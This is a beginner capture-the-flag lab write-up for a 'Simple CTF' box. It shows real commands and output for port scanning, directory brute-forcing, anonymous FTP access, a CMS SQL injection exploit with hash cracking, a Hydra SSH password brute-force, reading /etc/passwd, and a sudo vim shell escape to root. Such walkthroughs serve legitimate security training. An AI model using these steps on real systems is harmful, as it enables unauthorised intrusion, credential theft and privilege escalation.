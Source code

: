 # Simple CTF

Beginner level ctf

## 1. How many services are running under port 1000?
- Scan using nmap, `nmap -sC -sV -p0-3000 --min-rate 700 -oN ports 10.10.95.145`
```
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 
```

## 2. What is running on the higher port?
- It's obvious. Look at the nmap result

## 3. What's the CVE you're using against the application?
- The CVE of some kind of web application related stuff running on the target. Use gobuster to find out the directory of the application
- `gobuster dir -u http://10.10.95.145/ -w /usr/share/wordlists/dirb/common.txt`
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.95.145/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/17 15:08:26 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/simple (Status: 301)
===============================================================
2020/09/17 15:12:17 Finished
```

## 4. To what kind of vulnerability is the application vulnerable?
- The technique used in the CVE mentioned.

## 5. What's the password?
- Look back at nmap result and we can see that SSH protocol open on certain port.
- But before we know the password, don't forget the username.
	- Look back at the nmap result, we can see FTP protocol open on certain port and it shows anonymous login are allowed.
	```
	ftp-anon: Anonymous FTP login allowed (FTP code 230)
	```
	- We can leverage this to login through FTP using `anonymous` as username
	- Login successful! 
	```
	ftp > ls
	200 PORT command successful. Consider using PASV.
	150 Here comes the directory listing.
	drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
	226 Directory send OK.
	```
	- Go to the pub directory and retrieve the file inside using `get` command. There are clues about the username.

- There are few techniques that can be used to obtain the password:
	- The technique in the CVE. Download the exploit code and use it. I use Python 3 instead of Python 2 because Python 2 lacking some library necessary on my Kali. Just make sure to install all the necessary library required for the exploit code and know how to troubleshoot the code if any errors come up. This will save us from a lot of headache.
	```
	$ python3 cms-sqli.py -u http://10.10.95.145/simple/ --crack -w /usr/share/dirb/wordlists/others/best110.txt
	[+] Salt for password found: 1dac0d92e9fa6bb2
	[+] Username found: mitch
	[+] Email found: admin@admin.com
	[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
	```
	- Password cracking using Hydra
	```
	$ hydra -l mitch -P /root/rockyou.txt ssh://10.10.60.23:2222
	Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-17 21:39:00
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
	[DATA] attacking ssh://10.10.60.23:2222/
	[2222][ssh] host: 10.10.60.23   login: mitch   password: secret
	1 of 1 target successfully completed, 1 valid password found
	```
	- Run `ssh mitch@10.10.60.23 -p 2222` to login.

## 6. Where can you login with the details obtained?
- It's obvious, what is the protocol used before this to login?

## 7. What's the user flag?
- Flag in the user.txt file located in the target system

## 8. Is there any other user in the home directory? What's its name?
- Just don't forget to look at `/etc/passwd` file. It's there.

## 9. What can you leverage to spawn a privileged shell?
- Find out what binary program that can be run by the user as administrator. 
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
- Run `sudo -l` shows that Vim can be run as admin.
- It's the right time to run the Vim and escalate out privileges by spawning the shell.
- Run `sudo vim test` to create test file with admin access.
- Inside the Vim press `i` to enter insert mode. Type `:!sh` or `:!bash`. Press `Esc` and save the file by typing `:wq`. BOOM!
	```
	# id
	uid=0(root) gid=0(root) groups=0(root)
	# whoami
	root
	# locate root.txt
	/root/root.txt
	# cd /root
	# cat root.txt
	```

## 10. What's the root flag?
- Flag in the root.txt file that can only be read by root (admin)
